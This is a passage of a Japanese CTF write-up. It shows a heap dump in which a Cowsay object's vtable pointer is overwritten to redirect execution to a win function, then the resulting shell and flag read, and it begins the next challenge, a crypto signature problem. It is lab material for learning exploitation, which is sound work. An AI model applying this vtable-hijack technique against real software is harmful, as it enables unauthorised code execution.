 その状態で heap を表示するとこのようになり上手くいってそうです。

```
  [ address ]    [ heap data ]
               +------------------+
0x55a79c901ea0 | 0000000000000000 |
               +------------------+
0x55a79c901ea8 | 0000000000000021 |
               +------------------+
0x55a79c901eb0 | 4141414141414141 |
               +------------------+
0x55a79c901eb8 | 4141414141414141 |
               +------------------+
0x55a79c901ec0 | 4141414141414141 |
               +------------------+
0x55a79c901ec8 | 4141414141414141 |
               +------------------+
0x55a79c901ed0 | 000055a79c901ed8 | ---------------> vtable for Cowsay (corrupted)
               +------------------+                 +------------------+
0x55a79c901ed8 | 000055a79c24261a |  0x55a79c901ed8 | 000055a79c24261a |
               +------------------+                 +------------------+
0x55a79c901ee0 | 0000000000000000 |                 --> <win> function
               +------------------+
0x55a79c901ee8 | 000000000000f121 |
               +------------------+
```

後は Use してシェル GET です。

```
1. Use cowsay
2. Change message
3. Display heap
> $ 1
[+] You're trying to use vtable at 0x55a79c901ed8
[+] Congratulations! Executing shell...
[snip...]
$ cat /flag-806cb9c9719379667ca5616d9c8210f1.txt
CakeCTF{vt4bl3_1s_ju5t_4n_arr4y_0f_funct1on_p0int3rs}
```

完全なる接待 Pwn プレイですが、我が家のミニブースター達も喜んでいそうです。

![](https://storage.googleapis.com/zenn-user-upload/9d0a2ab08505-20231112.png)

## simple signature [Crypto]

### 問題

$p, g$ : 公開

#### 鍵作成

- $x, y, w$ : 大きい乱数
- $v = wy \bmod{p-1}$
- $u = (wx - 1)v^{-1} \bmod{p-1}$
- $\text{skey} = (x,y,u), \text{vkey} = (w, v)$
- $\text{skey}$ は秘密、$\text{vkey}$ は公開
